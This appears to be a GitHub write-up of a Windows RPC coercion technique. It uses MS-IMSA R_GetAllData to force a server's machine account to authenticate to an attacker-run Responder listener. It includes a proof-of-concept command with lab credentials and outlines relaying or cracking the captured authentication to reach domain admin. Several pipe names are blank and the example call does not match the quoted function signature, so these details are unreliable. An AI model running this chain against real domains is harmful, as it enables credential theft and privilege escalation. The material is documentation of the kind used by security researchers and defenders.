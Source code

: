 # MS-IMSA - Remote call to R_GetAllData (opnum 13)

## Summary

 - **Protocol**: [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457)

 - **Protocol UUID**: 70b51430-b6ca-11d0-b9b9-00a0c922e750

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`R_GetAllData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/caedbaa6-3867-463e-b2ab-9ecbb61adbaf)

 - **Function operation number**: `13`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol (with uuid `70b51430-b6ca-11d0-b9b9-00a0c922e750` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) and allows to call RPC functions of this protocol. We will then call the remote [`R_GetAllData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/caedbaa6-3867-463e-b2ab-9ecbb61adbaf) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_GetAllData('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT R_GetAllData(
   [in] METADATA_HANDLE hMDHandle,
   [unique, in, string] LPCWSTR pszMDPath,
   [in] DWORD dwMDAttributes,
   [in] DWORD dwMDUserType,
   [in] DWORD dwMDDataType,
   [out] DWORD* pdwMDNumDataEntries,
   [out] DWORD* pdwMDDataSetNumber,
   [in] DWORD dwMDBufferSize,
   [out] DWORD* pdwMDRequiredBufferSize,
   [out] IIS_CRYPTO_BLOB** ppDataBlob
 );
```

## References

 - Documentation of protocol [MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457

 - Documentation of function `R_GetAllData`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/caedbaa6-3867-463e-b2ab-9ecbb61adbaf